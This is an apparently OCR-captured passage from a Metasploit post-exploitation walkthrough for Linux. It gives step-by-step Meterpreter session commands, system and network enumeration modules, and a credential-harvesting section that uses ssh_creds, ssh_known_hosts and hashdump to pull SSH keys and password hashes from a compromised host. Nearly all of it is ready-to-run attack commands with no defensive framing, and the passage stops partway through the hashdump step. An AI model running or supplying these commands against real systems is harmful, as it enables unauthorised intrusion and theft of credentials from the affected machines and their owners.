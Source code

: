2) Quick sanity checks (optional Meterpreter commands)
```
sessions -i SESSION_ID
getuid
sysinfo
ifconfig
route
ps
shell
id; uname -a; whoami; exit
background
```

3) Core Linux post-exploitation enumeration
```
search type:post platform:linux gather
```
Run common gather modules (set your SESSION each time):
```
use post/linux/gather/enum_system
set SESSION SESSION_ID
run

use post/linux/gather/enum_network
set SESSION SESSION_ID
run

use post/linux/gather/enum_protections
set SESSION SESSION_ID
run

use post/linux/gather/enum_services
set SESSION SESSION_ID
run

use post/linux/gather/checkvm
set SESSION SESSION_ID
run

use post/linux/gather/enum_configs
set SESSION SESSION_ID
run
```

4) Credentials harvesting
- SSH-related (paths vary; use search to confirm availability)
```
search type:post platform:linux ssh gather
```
Common modules:
```
use post/multi/gather/ssh_creds
set SESSION SESSION_ID
run

use post/multi/gather/ssh_configs
set SESSION SESSION_ID
run

use post/multi/gather/ssh_known_hosts
set SESSION SESSION_ID
run
```
- Hashdump (requires sufficient privileges; often root):
```
use post/linux/gather/hashdump
set SESSION SESSION_ID
```
